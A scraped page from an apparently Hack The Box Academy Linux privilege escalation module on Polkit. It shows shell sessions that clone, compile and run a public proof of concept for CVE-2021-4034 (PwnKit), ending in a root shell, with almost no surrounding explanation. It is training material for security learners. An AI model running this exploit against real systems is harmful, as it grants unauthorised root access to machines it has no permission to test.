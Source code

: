 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/51/section/1591
// Platform Version: V1
// Module ID: 51
// Module Name: Linux Privilege Escalation
// Module Difficulty: Easy
// Section ID: 1591
// Section Title: Polkit
// Page Title: Hack The Box - Academy
// Page Number: 25
-->

# Polkit

**Module Name:** Linux Privilege Escalation **Page Number:** 25

#### 

#### LINUX PRIVILEGE ESCALATION

# Polkit

``` shell-session
cry0l1t3@nix02:~$ # pkexec -u <user> <command>
cry0l1t3@nix02:~$ pkexec -u root id

uid=0(root) gid=0(root) groups=0(root)
```

``` shell-session
cry0l1t3@nix02:~$ git clone https://github.com/arthepsy/CVE-2021-4034.git
cry0l1t3@nix02:~$ cd CVE-2021-4034
cry0l1t3@nix02:~$ gcc cve-2021-4034-poc.c -o poc
```

``` shell-session
cry0l1t3@nix02:~$ ./poc

# id

uid=0(root) gid=0(root) groups=0(root)
```

# 

# 

#### Questions

####